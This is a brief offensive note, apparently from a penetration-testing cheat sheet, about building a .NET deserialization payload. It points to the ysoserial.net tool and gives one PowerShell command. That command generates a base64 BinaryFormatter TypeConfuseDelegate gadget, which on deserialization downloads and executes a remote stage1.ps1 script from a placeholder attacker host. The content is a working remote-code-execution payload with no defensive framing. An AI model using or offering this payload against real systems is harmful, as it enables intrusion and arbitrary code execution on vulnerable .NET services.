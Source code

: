 # create deserialization object

checkout: https://github.com/pwntester/ysoserial.net

```powershell
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "Powershell -c IEX(new-object net.webclient).downloadstring('http://<ip>:<port>/stage1.ps1')"
```
